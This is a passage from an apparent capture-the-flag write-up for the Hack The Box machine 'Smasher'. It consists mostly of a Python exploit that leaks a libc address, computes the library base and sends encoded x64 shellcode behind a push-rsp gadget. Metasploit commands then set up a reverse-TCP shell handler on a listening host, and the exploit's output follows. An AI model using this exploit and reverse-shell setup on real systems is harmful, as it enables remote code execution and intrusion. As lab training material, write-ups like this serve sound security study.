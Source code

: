 ``` python
response = execute_payload(buf).split("File not found")[1]           
read_addr = struct.unpack("<Q", response[:8])[0]
print "read() is at", hex(read_addr)

libc_addr = read_addr - read_off
print "libc base is at", hex(libc_addr)

#### 2 - Execute shellcode from stack

gadget = libc_addr + push_rsp

buf = ""
buf += padding
buf += struct.pack("<Q",  gadget)
buf += "\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xc7\xa4\xa1\x8a\x02\xe7\x6d"
buf += "\x1b\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x8f\x95\x5e\xe0\x0b\xbf\xf4\xad\xd7\xec\x28\x5c\x4f"
buf += "\xd6\xa4\x71\xe5\xe5\xfb\x38\x05\xe8\x68\x53\x42\x64"
buf += "\xd9\xd8\x68\xed\x2c\x42\x91\xf4\xcb\xa3\x5a\x7e\x07"
buf += "\x19\x98\xce\xa0\xd4\x0d\xe2\x25\x9e\x07\xdc\x9a\xc2"
buf += "\x95\xaf\xd4\x19\xc7\xb5\xfd\x80\x08\xea\x83\x4a\x8f"
buf += "\x2d\x47\xe0\x12\xbd\x07\x31\x9f\xab\xa4\xd3\x4a\x62"
buf += "\xad\x62\xe2\xed\x5e\x43\x76\xff\x3a\x71\xe4\xfc\xcb"
buf += "\x8a\x68\xe2\x25\x92\x20\xec\x90\x7c\x0d\xe2\x34\x42"
buf += "\x98\xec\x24\x4a\x7b\x20\x07\x27\x9f\xce\xa0\xd5\x0d"
buf += "\xe2\x33\x41\xc8\xa1\xe9\x0f\xc2\x9f\x82\xe4\x21\xa4"
buf += "\xa1\x8a\x02\xe7\x6d\x1b"
buf += 'Z' * (1024 - len(buf))
response = exploit(buf)     
```

Before running, remmember to start handler.

``` bash

msf > use multi/handler
msf exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.13.238
LHOST => 10.10.13.238
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.13.238:4444 
```

And run exploit!

``` bash

[badarg:~/ctf/hackthebox/box/Smasher]$ python smasher_reverse_tcp.py 
    read() is at 0x7fd2fce03250
    libc base is at 0x7fd2fcd0c000
```

